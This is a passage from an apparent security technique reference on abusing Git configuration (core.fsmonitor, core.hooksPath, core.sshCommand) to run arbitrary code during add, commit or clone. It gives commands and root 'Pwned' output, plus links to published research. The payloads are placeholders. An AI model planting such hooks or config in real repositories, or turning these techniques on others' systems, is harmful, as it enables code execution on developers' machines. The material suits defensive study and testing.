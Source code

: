 ```bash
$ git add zzzz
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
fatal: pathspec 'zzzz' did not match any files

# git-commit
$ git commit -m 'add aaaa'
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
[main (root-commit) 7c2f2c6] add aaaa
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 aaaa
```

References:
- [Research: Git honours embedded bare repos, and exploitation via core.fsmonitor in a directory's .git/config affects IDEs, shell prompts and Git pillagers](https://github.com/justinsteven/advisories/blob/main/2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md)
- [Research: Securing Developer Tools - Git Integrations](https://blog.sonarsource.com/securing-developer-tools-git-integrations)

#### core.hooksPath

[core.hooksPath](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corehooksPath) sets different path to [hooks](https://git-scm.com/docs/githooks). You can create the post checkout hook within a repository, set the path to hooks with the `hooksPath`, and execute arbitrary code.

```bash
$ git clone "<REPO>" target_directory
$ cd target_directory
$ mkdir hooks
$ echo "#!/bin/sh" > hooks/post-checkout
$ echo "echo 'arbitrary code here'" >> hooks/post-checkout
$ # commit and push
```

To execute the payload, run the `git-clone`:

```bash
$ git clone -c core.hooksPath=hooks "<REPO>"
```

References:
- [git-config docs: core.hooksPath](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corehooksPath)
- [githooks docs](https://git-scm.com/docs/githooks)

#### core.sshCommand

[core.sshCommand](https://git-scm.com/docs/git-config#Documentation/git-config.txt-coresshCommand) gives a command that will be executed when establishing a connection to a remote using the SSH protocol. If this variable is set, `git fetch` and `git push` will use the specified command instead of `ssh` when they need to connect to a remote system.

```bash
$ echo $'#!/bin/bash\necho \\"Pwned as $(id)\\">&2' > pwn.sh
$ chmod +x pwn.sh
$ git clone -c core.sshCommand="./pwn.sh" git@github.com:user/project.git
# or
$ git clone -c core.sshCommand="./pwn.sh" ssh://github.com/user/project.git
Cloning into 'project'...
"Pwned as uid=0(root) gid=0(root) groups=0(root)"
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```
